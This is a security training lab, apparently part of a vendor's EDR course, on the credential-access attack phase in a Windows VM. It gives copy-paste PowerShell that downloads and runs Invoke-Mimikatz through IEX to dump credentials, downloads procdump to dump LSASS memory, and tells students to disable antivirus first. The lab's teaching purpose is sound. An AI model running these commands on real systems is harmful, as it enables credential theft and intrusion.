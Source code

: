 ```yaml
---
Title: ATT&CK - Credential Access & Exfiltration Phase
Description: Introduce post-compromise attack behaviors and EDR defenses
Author: Chris Gerritz, Datto
Created: 04/14/2025
Achievements:
Duration: 10
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
External:
- attack.mitre.org
- allitshop.infocyte.com
- raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1
- live.sysinternals.com/procdump.exe
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

Credential Access consists of techniques for stealing credentials like account names and passwords. Techniques used to get credentials include keylogging or credential dumping. Using legitimate credentials can give adversaries access to systems, make them harder to detect, and provide the opportunity to create more accounts to help achieve their goals

The virtual machine has some dummy users to mimic a specific type of workstation that might be found in a business enviroment:

Dummy users:
- Joe from Accounting: 
  - `net user joe Password1! /ADD /FULLNAME:"Joe - Accounting"`
- Samson from Accounting
  - `net user samson Password1! /ADD /FULLNAME:"Samson - Accounting"`
- Brenda from IT
  - `net user brenda Password1! /ADD /FULLNAME:"Branda - IT Helpdesk"`

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the Credential Access phase of an attack
2. Demonstrate the use of common tools for stealing passwords
   

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Instructions

Open a new terminal using `c:\Users\Public\rat.exe` or you can use the same terminal from the previous lab. You will be copying and pasting the lab commands into this terminal session.  If you close this window, remember to re-open `c:\Users\Public\rat.exe` before running any of the labs.

w> All labs require you to be running as an administrator. 


### 1. Credential Dumping with Mimikatz
> *Mimikatz is one of the most well known credential access and dumping tools used by hackers today. It can extract passwords, unencode them and sometimes unencrypt them.*

w> Mimikatz almost always will flag on antivirus so it's important to disable antivirus tools prior to running it.

Execute a **Credential Dump with Mimikatz**. 
- MITRE ATT&CK Technique: [ATT&CK T1003 - Credential Access - Credential Dumping](https://attack.mitre.org/techniques/T1003)
- Copy and paste this command into the terminal:
```PowerShell
# Mimikatz
Write-Host -ForegroundColor Cyan "Executing Credential Dump - T1003 - Credential Dumping with Mimikatz"
$MimikatzURL = 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1'
$cmd = "IEX (New-Object Net.WebClient).DownloadString('$MimikatzURL'); Invoke-Mimikatz -DumpCreds; Start-Sleep -m $n"
powershell.exe -command $cmd
```



### 2. Credential Dumping with procdump.exe
> *Because Mimikatz is so commonly found by antivirus, some attackers will use built-in windows utilities to dump the memory of the security process, LSASS.exe, and then use mimikatz on the dump following exfiltration.*

Execute a **Credential Dump with Procdump**. 
- MITRE ATT&CK Technique: [ATT&CK T1003 - Credential Access - Credential Dumping](https://attack.mitre.org/techniques/T1003)
- Copy and paste this command into the terminal:
```PowerShell
# Extract LSASS memory with Procdump
Write-Host -ForegroundColor Cyan "Executing Credential Dump - T1003 - Credential Dumping with Mimikatz"
Write-Host -ForegroundColor Cyan  "Downloading ProcDump.exe"
Invoke-WebRequest -Uri http://live.sysinternals.com/procdump.exe -OutFile "$Env:temp\procdump.exe"
Write-Host "Dumping LSASS memory with ProcDump.exe to extract passwords and tokens"
& "$Env:temp\procdump.exe" -ma lsass.exe lsass.dmp -accepteula
```
